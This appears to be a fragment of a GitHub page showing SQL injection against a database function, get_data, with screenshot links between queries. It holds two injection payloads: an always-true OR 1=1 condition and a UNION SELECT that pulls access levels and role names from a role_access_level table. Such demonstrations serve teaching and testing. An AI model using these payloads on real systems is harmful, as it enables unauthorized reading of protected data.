 SELECT * FROM get_data('1'' OR 1=1 -- ');

![1](https://user-images.githubusercontent.com/93474882/209402878-e7519074-95dc-43aa-a815-0f8c6943228f.png)

 SELECT * FROM get_data
('1'' UNION SELECT CAST(access_level AS INTEGER),
 CAST(role_name AS VARCHAR), 
CAST(NULL AS date) FROM role_access_level -- ');

![2](https://user-images.githubusercontent.com/93474882/209403655-41209f77-905a-41a3-ab47-03cdbbcfed54.png)
